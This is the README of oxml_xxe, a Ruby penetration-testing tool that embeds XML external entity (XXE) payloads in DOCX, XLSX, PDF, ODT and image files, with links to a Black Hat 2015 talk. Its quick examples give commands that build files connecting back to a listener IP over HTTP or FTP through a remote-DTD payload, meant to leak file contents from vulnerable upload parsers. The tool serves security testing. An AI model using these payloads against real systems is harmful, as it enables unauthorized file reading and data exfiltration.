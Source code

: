 # oxml_xxe
This tool is meant to help test XXE vulnerabilities in ~~OXML document~~ file formats. Currently supported:

- DOCX/XLSX/PPTX
- ODT
- PDF
- JPG
- GIF (experimental)

BH USA 2015 Presentation:

[Exploiting XXE in File Upload Functionality (Slides)](http://oxmlxxe.github.io/reveal.js/slides.html#/) [(Recorded Webcast)](https://www.blackhat.com/html/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.html)

Blog Posts on the topic:

[Exploiting XXE Vulnerabilities in OXML Documents - Part 1](http://www.silentrobots.com/blog/2015/03/04/oxml_xxe/)

# Installation

Installation is easy, you will need a copy of Ruby and two gems.

```
gem install highline
gem install zipruby
```

or


```
gem install bundler
bundle install
```

# Quick Examples

## Build a PDF with XXE in XMP (metadata)
```
ruby oxml_xxe.rb --poc pdf -i 192.168.14.1:8000
```

## Build a DOCX with XXE (connecting back to 192.168.14.1:8000)
```
ruby oxml_xxe.rb -s -i 192.168.14.1:8000

Select payload 11 ("remote_DTD")
```

## Build a XLSX with XXE (connecting back to ftp://192.168.14.1:8000)
```
ruby oxml_xxe.rb -f samples/sample.xlsx -s -i ftp://192.168.14.1:8000

Select payload 11 ("remote_DTD")
```


# Main Modes

There are two main modes:

## Build Mode ("-b")

Build mode adds a DOCTYPE and inserts the XML Entity into the file of the users choice.

## String Replacement Mode ("-s")

String replacement mode goes through and looks for the symbol § in the document. The XML Entity ("&xxe;") replaces any instances of this symbol. Note, you can open the document in and insert § anywhere to have it replaced. The common use case would be a web application which reads in a xlsx and then prints the results to the screen. Exploiting the XXE it would be possible to have the contents printed to the screen.

